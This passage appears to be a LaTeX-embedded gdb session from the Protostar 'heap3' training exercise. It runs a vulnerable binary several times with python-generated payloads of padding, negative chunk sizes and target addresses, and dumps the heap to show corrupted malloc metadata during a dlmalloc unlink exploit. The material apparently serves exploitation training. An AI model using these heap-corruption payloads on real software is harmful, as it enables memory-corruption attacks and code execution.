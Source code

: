 \begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\xf0"*4+"\x04\xc0\x04\x08"*4)'` C
Breakpoint 8, main (argc=4, argv=0xbffff824) at heap3/heap3.c:26
26      in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x0804c004
0x804c010:      0x0804c004      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0xfffffff8      0xfffffffc      0xfffffffc
0x804c030:      0xfffffff9      0x0804b194      0x0804b194      0x0804c004
0x804c040:      0x0804c004      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000fb1      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\xf0"*4+"\x04\xc0\x04\x08"+"\x0c\xc0\x04\x08")'` C
Breakpoint 8, main (argc=4, argv=0xbffff824) at heap3/heap3.c:26
26      in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x0804c00c      0x0804c004      0x41414141      0x41414141
0x804c020:      0x41414141      0xfffffff8      0xfffffffc      0xfffffffc
0x804c030:      0xfffffff9      0x0804b194      0x0804b194      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000fb1      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\xf0"*4+"\x04\xc0\x04\x08"+"\x10\xc0\x04\x08")'` C
Breakpoint 8, main (argc=4, argv=0xbffff824) at heap3/heap3.c:26
26      in heap3/heap3.c
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x0804c010      0x41414141      0x0804c004      0x41414141
0x804c020:      0x41414141      0xfffffff8      0xfffffffc      0xfffffffc
0x804c030:      0xfffffff9      0x0804b194      0x0804b194      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000fb1      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
\end{lstlisting}

